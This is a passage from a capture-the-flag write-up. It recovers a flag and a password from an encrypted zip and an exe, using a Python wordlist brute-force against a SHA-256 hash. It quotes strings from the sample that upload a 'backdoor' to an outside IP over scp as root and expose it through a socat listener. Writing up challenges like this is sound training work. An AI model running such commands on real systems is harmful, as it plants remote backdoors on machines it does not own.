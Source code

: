 This gives and encrypted zip file, but we have the zip password from the DNS packets so it is a breeze to extract.

That gives us an exe file and the flag: improsegg{exfiltrating_like_a_baws}

## Step 4 - Find secrets in the exe
The exe files contains the following strings:

wb
backdoor.zip
scp backdoor.zip root@164.92.150.74:/tmp/backdoor.zip
ssh root@164.92.150.74 'unzip -d /tmp/ /tmp/backdoor.zip'
ssh root@164.92.150.74 'socat TCP-LISTEN:1337,reuseaddr,fork EXEC:/tmp/backdoor'

This could point the direction of somekind of data being written to a zip file, then uploaded to a server for lastly being run.

The data in the exe is encrypted. The encryption was identified to be of the SALSA20 family.

The program ask for a user and a password. If the password is not correct will the zip file not be written and the program will exit.

In the code is it found that the correct key must be:

96 db cc cf 42 45 ee 91 6f 5e 2d 39 87 cc 26 35 31 3d 87 16 05 e1 08 05 27 4b 84 5c 3e cd 87 22

However this is not something that be input'ed directly because of some manipulation of the input.

The input is always converted to a fixed length, so that points in direction of a hash function. After googling constant is the hash function found to be sha256.

However, before the password entered by the user is hashed is it manipulated.

The following python script reverse the algorithm and search for a password from rockyou or another file with passwords.

{% highlight python %}
def bit_not(n, numbits=8):
    return (1 << numbits) - 1 - n

def enc(pw):
    pw = list(pw)
    for x in range(len(pw)):
        pw[x] = pw[x] + 1
        pw[x] = bit_not((pw[(x+1) % len(pw)] ^ pw[x]) + 100) & 0xff
    return bytes(pw)


with open(sys.argv[1], "rb") as f:
    for line in f:
        line = line.strip()
        pw = enc(line)
        hsh = hashlib.sha256(pw).hexdigest()
        if hsh == "96dbcccf4245ee916f5e2d3987cc2635313d871605e10805274b845c3ecd8722":
            print(line)
{% endhighlight %}

The password is found to be nathanxyz123
